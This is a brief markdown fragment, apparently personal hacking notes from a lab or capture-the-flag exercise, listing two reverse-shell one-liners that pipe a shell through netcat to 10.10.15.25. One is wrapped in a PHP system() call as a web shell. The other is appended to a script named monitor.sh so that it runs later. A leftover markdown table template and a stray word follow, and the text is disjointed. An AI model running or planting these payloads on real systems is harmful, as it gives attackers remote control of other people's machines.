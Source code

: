 ## Other

- `<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.25 12808 >/tmp/f"); ?>`
- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.25 12809 >/tmp/f' | tee -a monitor.sh`

| Syntax | Description |
| ----------- | ----------- |
| Header | Title |
| Paragraph | Text |band
